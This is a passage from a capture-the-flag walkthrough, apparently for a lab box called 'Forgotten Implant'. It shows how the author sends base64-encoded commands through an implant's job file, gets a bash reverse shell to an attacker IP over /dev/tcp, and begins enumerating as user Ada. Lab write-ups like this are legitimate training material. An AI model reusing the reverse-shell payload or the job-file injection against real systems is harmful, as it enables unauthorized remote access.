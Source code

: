 The command we will send will be `{"job_id": 1, "cmd": "id"}` Encoded to base64 `echo '{"job_id": 1, "cmd": "id"}' | base64` is `eyJqb2JfaWQiOiAxLCAiY21kIjogImlkIn0K`

Copy the base64 data to the job file and host with Python3 web server.

This time the get result encoded data is different. Decode the data to view the contents.
![Result Of CMD](/img/forgotten_implant/result_file.png "CMD Result")

Decoding the new result base64 gives us the username 'Ada'

![Decoded Result](/img/forgotten_implant/result_decoded.png "Decoded Result")

### Remote Code Execution

Now we know we can execute commands on the target it's time to get a reverse shell and establish our foothold.  Base64 encode the following and copy it into the job file again.

```sh
{"job_id": 1, "cmd": "bash -c 'exec bash -i &>/dev/tcp/10.11.0.200/9001 <&1'"}

eyJqb2JfaWQiOiAxLCAiY21kIjogImJhc2ggLWMgJ2V4ZWMgYmFzaCAtaSAmPi9kZXYvdGNwLzEwLjExLjAuMjAwLzkwMDEgPCYxJyJ9
```
**Screenshot**
![Encode Revshell](/img/forgotten_implant/enc_shell.png "Base64 Encode and Copy to file")
Start a reverse listener and your web server.

![Rev Shell](/img/forgotten_implant/rev_shell.png "Reverse Shell Established Successfully")

### Foothold Established

Now we have a foothold on the box as the user Ada and we begin our enumeration. First list the contents the home folder. The folder contains our first flag and a python file called 'products.py'.  Submit your flag and continue.  View the file 'products.py'

```python
import mysql.connector

db = mysql.connector.connect(
    host='localhost', 
    database='app', 
    user='app', 
    password='<redacted>'
    )

cursor = db.cursor()
cursor.execute('SELECT * FROM products')

for product in cursor.fetchall():
    print(f'We have {product[2]}x {product[1]}')
```
![Product Script](/img/forgotten_implant/product_py.png "Product Python3 Script")
